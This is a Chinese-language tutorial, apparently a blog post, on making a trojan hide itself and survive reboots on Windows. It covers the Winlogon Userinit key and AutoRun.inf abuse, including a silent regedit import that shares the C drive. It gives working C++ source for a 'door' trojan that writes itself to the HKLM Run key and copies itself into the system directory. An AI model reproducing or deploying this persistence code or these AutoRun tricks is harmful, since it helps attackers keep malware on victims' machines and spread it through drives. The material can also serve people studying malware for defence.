



隐藏自己，是一个木马的基本素养。从door木马程序学习如何使用注册表隐藏自己
在开始学习前，先去复习一下注册表操作如何？
隐藏技术
注册表启动
- 注册表Userinit启动
注册表Userinit项后面带的是系统启动程序，它可以以逗号分隔符的方式跟多个系统启东市需要加载的程序。
Userinit键在注册表中的位置是 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
如果你的木马没有在计算机的环境变量下的位置，那么要写绝对路径 - 利用AutoRun.inf启动
AutoRun.inf文件是很早就存在的。在比较老的系统里（如Windows98、Windows2000等），需要让光盘、U盘插入计算机自动运行的话，就需要靠AutoRun.inf。这个文件一般保存在驱动器的根目录下的一个隐藏的系统文件，它保存着一些简单的命令，提示系统对于这个光盘或硬件应该自动启动的程序，也可以让系统把该盘符的图标改成某一路径下的icon。这就给了木马可以轻易利用的机会。
AutoRun.inf不仅可以用于光盘和U盘，对于硬盘也是同样有效的（但此时AutoRun.inf必须放在磁盘根目录下才会有效）
AutoRun.inf格式：
[AutoRun]
Icon = C:\Windows\System\Shell32.dll,21
Open = C:\Program Files\ACDSee\ACDSee.exe
第一行 “[AutoRun]”是必需的固定格式
第二行 “Icon = C:\Windows\System\Shell32.dll,21”该盘符设定一个图标，后面指定的是图标的路径，在这里指定的是Shell32.dll是一个包含很多Windows图标的系统文件，”21”表示其中编号为21的图标，无数字则默认为”1”
第三行 “Open = C:\Program Files\ACDSee\ACDSee.exe”指出要运行的程序的路径及其程序名。如果把Open行换为木马，则必须是.exe、.com、.bat文件，其他文件可以用start.exe打开或者使用ShellExecute命令。
如此设置当对方点击硬盘时，也同时会启动不可告人的东西
另外，在AutoRun.inf中也可以指定运行某个注册表文件，这样就可以以AutoRun.inf为跳板，启动设计好的注册表文件。
如，想共享C盘可以这样写：
[AutoRun]
Open = regedit/s Share.reg;
加”/s”是为了导入时不会显示任何信息，share.reg是预先写好的注册表程序。最后将这两个文件都放到某个盘的根目录下就行了。
door木马
测试功能：只测试自动加载注册表项功能，其他功能暂时不研究
类型：辅助类(目前只是一个启动方式，并没有添加真正有攻击性的功能)
隐藏：任务栏隐藏
自启动：注册表
door自动加载部分代码
#include <stdio.h>
#include<Windows.h>
int main()
{
LPCWSTR regname = L"Software\\Microsoft\\Windows\\CurrentVersion\\Run";//注册表启动项地址
HKEY hkResult;//注册表键值句柄
int ret;
ret = RegOpenKey(HKEY_LOCAL_MACHINE, regname, &hkResult); //打开关键字
if (ret == 0)
{
printf("success to open key\n");
}
else
{
printf("failed to open regedit.%d\n", ret);
}
ret = RegSetValueEx(hkResult, L"door", 0, REG_EXPAND_SZ, (unsigned char*)"%systemroot%\\door.exe", 25);//设置键值
if (ret == 0)
{
printf("success to write run key\n");
RegCloseKey(hkResult);
}
else
{
printf("failed to open regedit.%d\n", ret);
return 0;
}
LPWSTR modlepath=new wchar_t[256];
LPWSTR syspath=new wchar_t[256];
GetModuleFileName(0, modlepath, 256); //取得程序名字
GetSystemDirectory(syspath, 256);//获取系统目录
ret = CopyFile(modlepath, wcscat(syspath, L"\\door.exe"), 1);
if (ret)
{
printf("%s has been copyed to sys dir %s\n", modlepath, syspath);
}
else
printf("%s is exisis", modlepath);
system("pause");//只是为了测试给你看清楚，可以删去这一行
return 0;
}测试
先打开注册表翻到对应位置

可以看到这里还没有我们的door木马
现在运行door.exe

现在回去注册表，刷新一下，door已经写入注册表里面啦，以后每次开机都会自动加载这个door.exe程序
